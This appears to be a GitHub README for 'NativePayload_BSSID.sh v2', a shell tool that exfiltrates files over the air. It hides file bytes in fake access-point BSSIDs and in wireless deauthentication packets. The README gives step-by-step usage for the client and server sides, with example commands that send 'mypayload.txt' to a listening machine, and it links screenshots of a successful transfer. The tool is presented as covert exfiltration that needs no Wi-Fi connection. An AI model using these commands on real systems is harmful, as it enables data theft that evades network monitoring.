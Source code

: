# NativePayload_BSSID.sh v2

Exfiltration via Wireless DeAuthentication Packets from Client to Server on AIR (without user-pass or Wifi Connection & very fast)

Article/Pdf and New video will Publish here soon...

Video[1] , NativePayload_BSSID.sh v2 (step by step) : https://www.youtube.com/watch?v=rg-O4RKt9OA

as you can see in this "Picture 1", with this switch "help" you can see Help information : ./NativePayload_BSSID.sh help 

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20help.png)
Picture 1:

# NativePayload_BSSID.sh (help):  

   NativePayload_BSSID.sh v1 Syntax: 

    Step1 (Client Side): 
    Syntax            :./NativePayload_BSSID.sh -f [text-file] [Fake-AP-Name] [MonitorMode-Interface]
    Example [System A]:./NativePayload_BSSID.sh -f mytext.txt myfakeAP Wlan3mon

    Step2 (Server Side):
    Syntax            :./NativePayload_BSSID.sh -s [Wifi-Interface] [Exfil-Dump-file]
    Example [System B]:./NativePayload_BSSID.sh -s wlan0 ExfilDumped.txt

    Description: with Step1 (system A) you will inject bytes for (mytext.txt) file to BSSID for Fake AP in this case (myfakeAP) ,
    with Step2 on (system B) you can have this text file via Scanning Fake AP on AIR by Wireless traffic (Using iwlist tool)
    Note : before step1 you should make Monitor-Mode Interface (WlanXmon) by this command for example : airmon-ng start wlan3 
    --------------------------------------------------------
   NativePayload_BSSID.sh v2 Syntax I: 

    Step1 (Server Side):
    Syntax            :./NativePayload_BSSID.sh -deauthdumps [FakeAP-ESSID] [MonitorMode-Interface] [Wifi-Channel] [FakeAP-BSSID]
    Example [System B]:./NativePayload_BSSID.sh -deauthdumps MyFakeAP wlan1mon 7 00:12:32:44:64:19

    Step2 (Client Side):
    Syntax            :./NativePayload_BSSID.sh -exfildeauth [text-file] [Target-FakeAP-BSSID] [Wifi-Interface] [Wifi-Channel] [dbg]/[fast]/[faster]
    Example [System A]:./NativePayload_BSSID.sh -exfildeauth mypayload.txt 00:12:32:44:64:19 wlan2 7 faster

    Description: with Step1 (system B) you will have Fake AP via wlanXmon interface also DeAuth Packets will Dump via Tcpdump
    tool in this step in server side , 
    Note: before step1 you should make WlanXmon Monitor-Mode Interface by this command : airmon-ng start wlanX 
    with Step2 your Client (system A) will send that text file to (Target/system B) via DeAuth Packets On AIR Directly...
    note: via Step2 your Payload Injected to Client.BSSIDs in DeAuth Packets.
    --------------------------------------------------------
   NativePayload_BSSID.sh v2 Syntax II:
   
    (Server/Client Side):
    Syntax :./NativePayload_BSSID.sh -exfilserver
    Description: for more information please read PDF/Article on Github... (soon)
    --------------------------------------------------------

--------------------------------------------------------------------------------------

# NativePayload_BSSID.sh v2 
# and DeAuth Method (step by step): 

Step 1 :
with switch "-deauthdumps" you will have Fake AP via wlanXmon interface also DeAuth Packets will Dump via Tcpdump
tool in this step in server side.

Note: before step1 you should make WlanXmon Monitor-Mode Interface by this command : airmon-ng start wlanX 
 
    Step1 (Server Side):
    Example [System B]:./NativePayload_BSSID.sh -deauthdumps MyFakeAP wlan1mon 7 00:12:32:44:64:19


![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step1.png)
Picture 2:

Step 2 :
with Step2 your Client (system A) will send that text file to (Target/system B) via DeAuth Packets On AIR Directly...
note: via Step2 your Payload Injected to Client.BSSIDs in DeAuth Packets.

    Step2 (Client Side):
    Example [System A]:./NativePayload_BSSID.sh -exfildeauth mypayload.txt 00:12:32:44:64:19 wlan2 7 faster

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step2.png)
Picture 3:

as you can see in "Picture 4" after 5 seconds that text file "3.txt" Exfiltrated from client to server on AIR ,(very simple).

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step4.png)
Picture 4:

Article and Pdf File will Publish here soon...

Video STEP BY STEP : https://www.youtube.com/watch?v=rg-O4RKt9OA

